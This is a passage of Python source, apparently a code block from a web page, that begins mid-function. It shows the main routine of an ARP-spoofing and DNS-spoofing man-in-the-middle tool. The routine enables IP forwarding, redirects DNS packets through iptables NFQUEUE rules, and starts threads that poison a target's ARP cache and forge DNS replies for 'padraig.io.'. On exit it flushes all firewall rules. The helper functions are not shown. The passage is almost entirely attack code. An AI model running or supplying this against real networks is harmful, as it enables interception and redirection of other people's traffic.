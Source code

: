 ```python{numberLines: true}
        pass
    finally:
        print("cleaning up")
        nfqueue.unbind()


def main(target_ip: str, gateway_ip: str, interface: str, dns_ip: str):
    # Resolve the MAC addresses
    target_mac = resolve_ip("target", target_ip)
    gateway_mac = resolve_ip("gateway", gateway_ip)
    attacker_mac = get_attacker_mac(interface)

    os.system("sysctl -w net.ipv4.ip_forward=1")
    os.system(
        f"iptables -t nat -A PREROUTING -p udp --dport 53 -j NFQUEUE --queue-num 1 -i {interface}"
    )
    os.system(f"iptables -A FORWARD -o {interface} -j ACCEPT")
    os.system(
        f"iptables -A FORWARD -m state --state ESTABLISHED,RELATED -i {interface} -j ACCEPT"
    )

    # Loop forever and beacon packets
    try:
        arp_spoof_thread = threading.Thread(
            target=arp_spoof,
            args=(interface, target_ip, target_mac, gateway_ip, gateway_mac),
            daemon=True,
        )
        dns_spoof_thread = threading.Thread(
            target=dns_spoof,
            args=(
                interface,
                ["padraig.io."],
                dns_ip,
                attacker_mac,
                target_ip,
                target_mac,
            ),
            daemon=True,
        )
        arp_spoof_thread.start()
        dns_spoof_thread.start()
        arp_spoof_thread.join()
        dns_spoof_thread.join()
    except KeyboardInterrupt:
        os.system("sysctl -w net.ipv4.ip_forward=0")
        os.system("iptables -F")
        os.system("iptables -X")
        os.system("iptables -t nat -F")
        os.system("iptables -t nat -X")


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest="target", help="Target IP")
    parser.add_argument("-g", "--gateway", dest="gateway", help="Gateway IP")
    parser.add_argument(
        "-i",
        "--interface",
        dest="interface",
        help="Name of network interface",
        default="enp0s31f6",
    )
```